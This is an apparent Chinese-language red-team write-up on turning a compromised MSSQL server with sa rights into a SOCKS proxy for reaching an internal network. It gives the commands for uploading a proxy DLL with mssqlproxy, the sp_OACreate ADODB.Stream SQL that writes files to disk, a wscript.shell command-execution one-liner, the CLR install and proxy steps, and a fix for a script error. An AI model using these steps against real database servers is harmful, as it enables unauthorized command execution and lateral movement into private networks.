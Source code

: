 ### 利用MSSQL突破网络限制

#### 0x01前言

在某次项目的内网环境中，获得了一个mssql的sa权限。开启xp_cmdshell执行命令，发现其不出网，也不能反连web服务器，且web服务器只能访问到数据库服务器的1433端口。鉴于此，可通过CLR功能，先上传一个代理dll文件(or 十六进制流)，执行后就可以把mssql作为代理访问到数据库服务器3389和其可访问的资源。

#### 0x02 步骤

使用[MssqlClient](https://github.com/blackarrowsec/mssqlproxy)连接数据库

- 上传dll

`upload reciclador.dll C:\windows\temp\reciclador.dll`

![](./media/1.jpg)

查看代码，可知改工具是利用了sp_OACreate存储过程来写入文件

```
"DECLARE @ob INT;"
"EXEC sp_OACreate 'ADODB.Stream', @ob OUTPUT;"
"EXEC sp_OASetProperty @ob, 'Type', 1;"
"EXEC sp_OAMethod @ob, 'Open';"
"EXEC sp_OAMethod @ob, 'Write', NULL, %s;"
"EXEC sp_OAMethod @ob, 'SaveToFile', NULL, '%s', 2;"
"EXEC sp_OAMethod @ob, 'Close';"
"EXEC sp_OADestroy @ob;" % (hexdata, remote))
```

#Tips：使用sp_OACreate调用wscript.shell执行系统命令

`declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c ipconfig >> c:\users\public\1.txt'`

- 安装CLR

  ![](./media/2.jpg)

- 执行代理

  ![](./media/3.jpg)

  配置SOCKS5代理便可使用。实际利用中，如果不方便使用mssqlclient，可以照着脚本里的sql语句逐条执行。

  #### 0x03 坑

  复现过程中，最后一步报错"cannot establish connection",分析后发现作者提供的脚本第217行

  ```
  DECLARE @ip varchar(15); SET @ip=TRIM(CONVERT(char(15),CONNECTIONPROPERTY('client_net_address')))
  ```

  语句中的TRIM报错，TRIM不兼容mssql版本。需要根据实际更改。如：

  ```
  DECLARE @ip varchar(15); SET @ip=RTRIM(LTRIM(CONVERT(char(15), CONNECTIONPROPERTY('client_net_address'))))
  ```

  